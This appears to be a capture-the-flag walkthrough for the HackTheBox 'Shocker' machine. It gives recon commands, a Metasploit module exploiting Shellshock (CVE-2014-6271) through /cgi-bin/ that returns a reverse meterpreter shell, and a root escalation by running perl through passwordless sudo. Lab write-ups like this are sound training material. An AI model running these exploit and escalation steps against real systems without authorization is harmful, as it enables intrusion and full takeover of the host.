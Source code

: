 ```yaml
---
cover: ../.gitbook/assets/Shocker.png
coverY: 263.1893333333333
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Shocker

## Information

* Add a virtual host.

```bash
echo '10.10.10.56 shocker.htb' | sudo tee -a /etc/hosts
```

* Scan all ports & all services.

```bash
nmap -p- -T4 shocker.htb -o nmap-ports
nmap -p 80,2222 -sV -O shocker.htb -o nmap-services
```

* Enumerate the web server

```bash
gobuster dir -u http://shocker.htb/ -w /usr/share/wordlists/dirb/common.txt -o gobuster-common
```

* You find the folder `/cgi-bin/` try to find a file inside of it.

```bash
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -x pl,cgi,sh -o gobuster-cgi-files
```

## Exploitation

* The CGI service is vulnerable to CVE-2014-6271

```
msf6> use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf6> set RHOSTS shocker.htb
msf6> set TARGETURI /cgi-bin/
msf6> set LHOST tun0
msf6> set LPORT 1234
msf6> run
```

* You gain meterpreter access with **shelly**.

## PrivEsc

* Enumerate the sudo permissions of shelly.

```bash
shelly@target> cat /home/shelly/user.txt
shelly@target> sudo -l
```

* The binary `/usr/bin/perl` can be executed as root with no password.

```
shelly@target> sudo /usr/bin/perl -e "system('bash')"
```

And you gain the **root** access !
